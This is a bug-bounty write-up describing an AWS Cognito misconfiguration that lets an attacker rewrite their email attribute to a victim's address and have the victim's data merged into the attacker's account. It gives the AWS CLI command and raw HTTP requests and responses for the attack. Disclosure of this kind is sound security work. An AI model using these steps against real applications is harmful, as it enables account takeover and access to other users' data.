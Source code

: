 ```yaml
---
layout: post
title:  "AWS Cognito Misconfiguration"
date:   2022-11-04
categories: bugbounty
---
```


Hello everyone, hope you are all good and having some fun. After a long time I came up with an other interesting blog where I discuss about an interesting AWS Cognito misconfiguration allowing attacker to merge victim's account with the attacker account on behalf of the victim. This was found on one of the engagements at Synack Red Team.

For those who doesn't know about AWS Cognito. 

### Amazon Cognito

Amazon Cognito provides authentication, authorization, and user management for customer's web and mobile applications. Users can sign in directly with a user name and password, or through a third party such as Facebook, Amazon, Google, Apple, or enterprise identity providers via SAML 2.0 and OpenID Connect. The two main components of Amazon Cognito are user pools and identity pools. User pools are user directories that provide sign-up and sign-in options for application users. Identity pools enable developers to grant users access to other AWS services

**References:**
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)
* [https://www.techtarget.com/searchaws/definition/Amazon-Cognito](https://www.techtarget.com/searchaws/definition/Amazon-Cognito)

<p align="center">
<img src="https://docs.aws.amazon.com/images/cognito/latest/developerguide/images/cognito-user-pool-auth-flow-srp.png">
</p>

The Target application was using AWS Cognito for authentication purpose. Upon Login to the application certain requests were being made to AWS Cognito to validate the user. Once the validation check was passed you will be allowed to login to the application

The flow will be as follows

User login -> AWS Cognito (Authentication) -> AWS Cognito (Get User Attributes) -> Application Login

The request for `Get User Attribute` will have a header named `X-Amz-Target: AWSCognitoIdentityProviderService.GetUser` and the response for the request will be as follows

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{"AccessToken":"<Token>"}
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "attacker@attacker.com"
        }
    ]
}
``` 

The above response gives us the list of `user attributes` available. Among those three attributes the `email` attribute is interesting. If we can able to change our email address to victim's email address then we were able to login to the victim account with our attacker's password right? So with this mindset I started the exploitation process by making a request to `Update UserAttributes`. The Update User attribute request can be done by using `AWS CLI` or using a `HTTP Request`. Both examples have been given below

### Method 1 (Using AWS CLI)

**AWS CLI**
```
aws cognito-idp update-user-attributes --region us-west-2 --access-token <Token> --user-attributes 'Name=email,Value=**victim@victim.com**'
```

Run the above command to update the email address to victim's email address. After running the command the update operation was successfull. If you get an error like this `An error occured (AliasExistsException) when calling the UpdateUserAttributes operation: An account with the given email address already exists` it means the application was not vulnerable. 
 
Upon making a request to retrieve the updated `user attributes` using aws-cli with the below given command the response was as follows.

**AWS CLI**
```
aws cognito-idp get-user --region us-west-2 --access-token <Token>
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
``` 

### Method 2 (Using RAW HTTP Request)

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{
   "AccessToken": "string",  
   "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

**Response:**
```
{   
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

Now as per the mindset discussed above I have tried to login to the application with the below given credentials.

```
Email: victim@victim.com
Password: attacker'spassword
```

The login was failed. From the above given response i noticed the `username` still remains the same as `attacker@attacker.com` only the email attribute has been changed. So I tried to login to the application with the attacker's credentials such as

```
Email: attacker@attacker.com
Password: attacker'spassword
```

Login was successfull and all the data belonging to `victim@victim.com` was successfully merged over to `attacker's account`. Changes being done by `attacker` was being reflected to `victim's` account. Victim can still login to the application using his credentials as well.


